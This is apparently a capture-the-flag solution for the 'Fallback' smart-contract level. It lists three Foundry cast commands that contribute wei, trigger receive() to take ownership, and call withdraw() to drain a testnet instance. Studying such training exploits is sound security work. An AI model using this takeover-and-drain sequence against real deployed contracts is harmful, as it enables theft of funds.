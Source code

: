 # Fallback Solution

1) Call `contribute()`:

```
cast send `ìnstanceAddress` "contribute()" --value 1wei --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

2) Call `receive()`:

```
cast send `ìnstanceAddress` --value 1wei --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

3) Call `withdraw()`:

```
cast send `ìnstanceAddress` "withdraw()" --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
